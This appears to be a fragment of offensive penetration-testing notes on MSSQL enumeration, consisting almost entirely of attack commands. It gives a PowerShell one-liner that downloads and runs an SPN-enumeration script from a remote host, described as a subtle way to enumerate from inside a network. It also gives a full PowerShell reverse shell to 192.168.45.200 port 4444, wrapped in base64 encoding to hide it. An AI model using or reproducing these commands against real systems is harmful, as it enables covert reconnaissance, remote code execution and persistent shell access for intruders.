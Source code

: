 ## MSSQL

### Enumeration

If we want to enumerate services in a more subtle manner whilst inside an environment:
```powershell
IEX ((New-Object System.Net.WebClient).DownloadString('http://192.168.x.y/GetUserSPNs.ps1')); GetUserSPNs
```


[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("192.168.45.200",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'))